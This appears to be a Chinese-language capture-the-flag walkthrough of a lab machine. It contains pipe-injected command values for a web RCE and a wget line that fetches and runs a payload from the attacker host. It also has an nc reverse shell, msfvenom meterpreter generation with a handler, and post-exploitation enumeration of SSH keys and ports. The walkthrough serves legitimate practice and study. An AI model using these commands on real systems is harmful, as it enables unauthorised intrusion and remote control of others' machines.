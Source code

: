 | `cat /root/root.txt` |xx| can't read root.txt|
| `root|ls -al`|xx||
| `root|wget http://10.10.14.7/payload.elf;chmod +x payload.elf;./payload.elf`| 

`root|cd /root;net -e /bin/bash 10.10.14.7 2233|`

```
msfvenom --platform Linux -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.7 LPORT=9900 -f elf -o payload.elf

python -m SimpleHTTPServer 80
root|wget http://10.10.14.7/payload.elf
handler -H 10.10.14.7 -P 9900 -p linux/x64/meterpreter/reverse_tcp
```
## 获得shell
通过web rce，msf生成载荷上传运行后，获得meterpreter shell。

#### info enum
```
find . -name "diag.php"
find: './dev/.lxd-mounts': Permission denied
find: './proc/tty/driver': Permission denied
find: './sys/kernel/debug': Permission denied
find: './sys/fs/pstore': Permission denied
find: './sys/fs/fuse/connections/49': Permission denied

find . -name ".ssh"
/home/ubuntu/.ssh/authorized_keys  空的
./root/.ssh

---
cd /root/.ssh
cat authorized_keys
cat 

netstat -an | grep 80
/usr/bin/python3.5 -c 'import pty; pty.spawn("/bin/bash")'

---
ping -c 4 10.10.10.105
traceroute 10.10.10.105 命令未找到
nc -nvz  10.10.10.105 1-100
Connection to 10.10.10.105 21 port [tcp/*] succeeded!
Connection to 10.10.10.105 22 port [tcp/*] succeeded!

ssh 10.10.10.105 需要密码

```
#### info
通过查看/root/.ssh/authorized_keys，可知，root@web，ppacket@carrier，有两个主机。现在是`root@r1`，接下来准备渗透另外两个主机。
